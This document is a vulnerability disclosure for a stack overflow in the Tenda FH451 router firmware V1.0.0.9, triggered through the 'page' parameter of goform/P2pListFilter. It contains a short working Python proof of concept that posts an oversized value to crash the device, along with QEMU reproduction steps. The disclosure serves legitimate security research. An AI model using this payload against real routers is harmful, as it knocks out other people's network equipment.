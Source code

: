 # The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability

Firmware download link:https://tenda.com.cn/material/show/101629

Vulnerability URL:http://192.168.100.157:80/goform/P2pListFilter

The vulnerability occurs in the function.`P2pListFilter`

![image-20250328113100726](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250328113100726.png)

The program obtains the user input parameter "page" but does not check its size. When the input parameter is too large, it causes a stack overflow, leading to program crashes or exploitation.
Cross-referenced to the function route `P2pListFilter` in the `fromP2pListFilter` function, line 101.

![image-20250328113922956](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250328113922956.png)

Cross-referenced to the function `sub_64EAC`, with attention to lines 44 and 47.

![image-20250328114331261](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250328114331261.png)

The path of the webpage where the vulnerability occurs is known to be `goform/P2pListFilter`.

payload:(python)

```python
import requests

url = "http://192.168.100.157:80/goform/P2pListFilter"

payload = {
   'page': b'a'*(0x100000)
}

res = requests.post(url=url, data=payload)
print("Status Code:", res.status_code)
print("Response:", res.text)
```

# Reproduction Steps

## Launch QEMU Emulation

Open the QEMU emulator to simulate the environment.

![image-20250328114626782](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250328114626782.png)

![image-20250328114637643](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250328114637643.png)

Main, here it says "page not found," meaning the gateway page was not found, not that the router is not running.

Run the script.

![image-20250328114739279](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250328114739279.png)

![image-20250328114743672](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250328114743672.png)![image-20250328114748725](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250328114748725.png)

The router has crashed, and the web interface is also inaccessible.